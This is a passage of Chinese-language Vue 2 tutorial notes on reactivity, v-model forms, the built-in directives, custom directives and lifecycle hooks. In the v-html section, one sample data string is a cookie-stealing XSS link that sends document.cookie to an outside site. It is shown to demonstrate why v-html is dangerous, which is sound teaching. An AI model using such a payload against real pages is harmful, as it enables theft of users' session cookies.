					this.$set(this.student,'sex','男')
				}
			}
		})
	</script>
</html>
```


## vue列表总结

1. vue会监视data中所有层次的数据。

2. 如何监测对象中的数据？
    通过setter实现监视，且要在new Vue时就传入要监测的数据。
        (1).**对象中后追加的属性，Vue默认不做响应式处理**
        (2).如需给后添加的属性做响应式，请使用如下API：
            Vue.set(target，propertyName/index，value) 或 
            vm.$set(target，propertyName/index，value)

3. 如何监测数组中的数据？
    通过包裹数组更新元素的方法实现，本质就是做了两件事：
        (1).调用原生对应的方法对数组进行更新。
        (2).重新解析模板，进而更新页面。

4. **在Vue修改数组中的某个元素一定要用如下方法**：
	    1.使用这些API:push()、pop()、shift()、unshift()、splice()、sort()、reverse()
	    2.Vue.set() 或 vm.$set()

> **特别注意：**
>
> * Vue.set() 和 vm.$set() 不能给vm 或 vm的根数据对象 添加属性！！！
> * 直接修改数组元素是无效的，vue不能够识别，其元素没有对应的setter和getter方法。如果数组中存放对象就是可以的


# v-model收集表单数据

```vue
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>收集表单数据</title>
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 
        收集表单数据：
            若：<input type="text"/>，则v-model收集的是value值，用户输入的就是value值。
            若：<input type="radio"/>，则v-model收集的是value值，且要给标签配置value值。
            若：<input type="checkbox"/>
                1.没有配置input的value属性，那么收集的就是checked（勾选 or 未勾选，是布尔值）
                2.配置input的value属性:
                    (1)v-model的初始值是非数组，那么收集的就是checked（勾选 or 未勾选，是布尔值）
                    (2)v-model的初始值是数组，那么收集的的就是value组成的数组
            备注：v-model的三个修饰符：
                lazy：失去焦点再收集数据
                number：输入字符串转为有效的数字
                trim：输入首尾空格过滤
		-->
		<!-- 准备好一个容器-->
		<div id="root">
			<form @submit.prevent="demo">
				账号：<input type="text" v-model.trim="userInfo.account"> <br/><br/>
				密码：<input type="password" v-model="userInfo.password"> <br/><br/>
				年龄：<input type="number" v-model.number="userInfo.age"> <br/><br/>
				性别：
				男<input type="radio" name="sex" v-model="userInfo.sex" value="male">
				女<input type="radio" name="sex" v-model="userInfo.sex" value="female"> <br/><br/>
				爱好：
				学习<input type="checkbox" v-model="userInfo.hobby" value="study">
				打游戏<input type="checkbox" v-model="userInfo.hobby" value="game">
				吃饭<input type="checkbox" v-model="userInfo.hobby" value="eat">
				<br/><br/>
				所属校区
				<select v-model="userInfo.city">
					<option value="">请选择校区</option>
					<option value="beijing">北京</option>
					<option value="shanghai">上海</option>
					<option value="shenzhen">深圳</option>
					<option value="wuhan">武汉</option>
				</select>
				<br/><br/>
				其他信息：
				<textarea v-model.lazy="userInfo.other"></textarea> <br/><br/>
				<input type="checkbox" v-model="userInfo.agree">阅读并接受<a href="http://www.atguigu.com">《用户协议》</a>
				<button>提交</button>
			</form>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false

		new Vue({
			el:'#root',
			data:{
				userInfo:{
					account:'',
					password:'',
					age:18,
					sex:'female',
					hobby:[],
					city:'beijing',
					other:'',
					agree:''
				}
			},
			methods: {
				demo(){
					console.log(JSON.stringify(this.userInfo))
				}
			}
		})
	</script>
</html>
```


# 指令

## 内置指令

### v-text

```vue
	<body>
		<!-- 
        我们学过的指令：
            v-bind	: 单向绑定解析表达式, 可简写为 :xxx
            v-model	: 双向数据绑定
            v-for  	: 遍历数组/对象/字符串
            v-on   	: 绑定事件监听, 可简写为@
            v-if 	 	: 条件渲染（动态控制节点是否存存在）
            v-else 	: 条件渲染（动态控制节点是否存存在）
            v-show 	: 条件渲染 (动态控制节点是否展示)
        v-text指令：
            1.作用：向其所在的节点中渲染文本内容。
            2.与插值语法的区别：v-text会替换掉节点中的内容，{{xx}}则不会。
		-->
		<!-- 准备好一个容器-->
		<div id="root">
			<div>你好，{{name}}</div>
			<div v-text="name"></div>
			<div v-text="str"></div>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
		
		new Vue({
			el:'#root',
			data:{
				name:'尚硅谷',
				str:'<h3>你好啊！</h3>'
			}
		})
	</script>
```

### v-html

```vue
	<body>
		<!-- 
        v-html指令：
            1.作用：向指定节点中渲染包含html结构的内容。
            2.与插值语法的区别：
                (1).v-html会替换掉节点中所有的内容，{{xx}}则不会。
                (2).v-html可以识别html结构。
            3.严重注意：v-html有安全性问题！！！！
                (1).在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。
                (2).一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！
		-->
		<!-- 准备好一个容器-->
		<div id="root">
			<div>你好，{{name}}</div>
			<div v-html="str"></div>
			<div v-html="str2"></div>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		new Vue({
			el:'#root',
			data:{
				name:'尚硅谷',
				str:'<h3>你好啊！</h3>',
				str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
			}
		})
	</script>
```


### v-cloak

```vue
	<body>
		<!-- 
        v-cloak指令（没有值）：
            1.本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性。
            2.使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题。
		-->
		<!-- 准备好一个容器-->
		<div id="root">
			<h2 v-cloak>{{name}}</h2>
		</div>
		<script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>
	</body>
	
	<script type="text/javascript">
		console.log(1)
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
		
		new Vue({
			el:'#root',
			data:{
				name:'尚硅谷'
			}
		})
	</script>
```


### v-once

```vue
<body>
		<!-- 
        v-once指令：
            1.v-once所在节点在初次动态渲染后，就视为静态内容了。
            2.以后数据的改变不会引起v-once所在结构的更新，可以用于优化性能。
		-->
		<!-- 准备好一个容器-->
		<div id="root">
			<h2 v-once>初始化的n值是:{{n}}</h2>
			<h2>当前的n值是:{{n}}</h2>
			<button @click="n++">点我n+1</button>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
		
		new Vue({
			el:'#root',
			data:{
				n:1
			}
		})
	</script>
```


### v-pre

```vue
	<body>
		<!-- 
        v-pre指令：
            1.跳过其所在节点的编译过程。
            2.可利用它跳过：没有使用指令语法、没有使用插值语法的节点，会加快编译。
		-->
		<!-- 准备好一个容器-->
		<div id="root">
			<h2 v-pre>Vue其实很简单</h2>
			<h2 >当前的n值是:{{n}}</h2>
			<button @click="n++">点我n+1</button>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		new Vue({
			el:'#root',
			data:{
				n:1
			}
		})
	</script>
```


## 自定义指令

```vue
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>自定义指令</title>
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 
        需求1：定义一个v-big指令，和v-text功能类似，但会把绑定的数值放大10倍。
        需求2：定义一个v-fbind指令，和v-bind功能类似，但可以让其所绑定的input元素默认获取焦点。
        自定义指令总结：
            一、定义语法：
                (1).局部指令：
                    new Vue({
                        directives:{指令名:配置对象} 或 directives{指令名:回调函数}
                    }) 
                (2).全局指令：
                    Vue.directive(指令名,配置对象) 或 Vue.directive(指令名,回调函数)

            二、配置对象中常用的3个回调：
                (1).bind：指令与元素成功绑定时调用。
                (2).inserted：指令所在元素被插入页面时调用。
                (3).update：指令所在模板结构被重新解析时调用。

            三、备注：
                1.指令定义时不加v-，但使用时要加v-；
                2.指令名如果是多个单词，要使用kebab-case命名方式，不要用camelCase命名。
		-->
		<!-- 准备好一个容器-->
		<div id="root">
			<h2>{{name}}</h2>
			<h2>当前的n值是：<span v-text="n"></span> </h2>
			<!-- <h2>放大10倍后的n值是：<span v-big-number="n"></span> </h2> -->
			<h2>放大10倍后的n值是：<span v-big="n"></span> </h2>
			<button @click="n++">点我n+1</button>
			<hr/>
			<input type="text" v-fbind:value="n">
		</div>
	</body>
	
	<script type="text/javascript">
		Vue.config.productionTip = false

		//定义全局指令
		/* Vue.directive('fbind',{
			//指令与元素成功绑定时（一上来）
			bind(element,binding){
				element.value = binding.value
			},
			//指令所在元素被插入页面时
			inserted(element,binding){
				element.focus()
			},
			//指令所在的模板被重新解析时
			update(element,binding){
				element.value = binding.value
			}
		}) */

		new Vue({
			el:'#root',
			data:{
				name:'尚硅谷',
				n:1
			},
			directives:{
				//big函数何时会被调用？1.指令与元素成功绑定时（一上来）。2.指令所在的模板被重新解析时。
				/* 'big-number'(element,binding){
					// console.log('big')
					element.innerText = binding.value * 10
				}, */
				big(element,binding){
					console.log('big',this) //注意此处的this是window
					// console.log('big')
					element.innerText = binding.value * 10
				},
				fbind:{
					//指令与元素成功绑定时（一上来）
					bind(element,binding){
						element.value = binding.value
					},
					//指令所在元素被插入页面时
					inserted(element,binding){
						element.focus()
					},
					//指令所在的模板被重新解析时
					update(element,binding){
						element.value = binding.value
					}
				}
			}
		})
		
	</script>
</html>
```


# 生命周期


```vue
<html>
	<head>
		<meta charset="UTF-8" />
		<title>分析生命周期</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root" :x="n">
			<h2 v-text="n"></h2>
			<h2>当前的n值是：{{n}}</h2>
			<button @click="add">点我n+1</button>
			<button @click="bye">点我销毁vm</button>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		new Vue({
			el:'#root',
			// template:`
			// 	<div>
			// 		<h2>当前的n值是：{{n}}</h2>
			// 		<button @click="add">点我n+1</button>
			// 	</div>
			// `,
			data:{
				n:1
			},
			methods: {
				add(){
					console.log('add')
					this.n++
				},
				bye(){
					console.log('bye')
					this.$destroy()
				}
			},
			watch:{
				n(){
					console.log('n变了')
				}
			},
			beforeCreate() {
				console.log('beforeCreate')
			},
			created() {
				console.log('created')
			},
			beforeMount() {
				console.log('beforeMount')
			},
			mounted() {
				console.log('mounted')
			},
			beforeUpdate() {
				console.log('beforeUpdate')
			},
			updated() {
				console.log('updated')
			},
			beforeDestroy() {
				console.log('beforeDestroy')
			},
			destroyed() {
				console.log('destroyed')
			},
		})
	</script>
</html>
```


常用的生命周期钩子：

1. mounted: 发送ajax请求、启动定时器、绑定自定义事件、订阅消息等【初始化操作】。
2. beforeDestroy: 清除定时器、解绑自定义事件、取消订阅消息等【收尾工作】。

关于销毁Vue实例

1. 销毁后借助Vue开发者工具看不到任何信息。
2. 销毁后自定义事件会失效，但原生DOM事件依然有效。
3. 一般不会在beforeDestroy操作数据，因为即便操作数据，也不会再触发更新流程了。
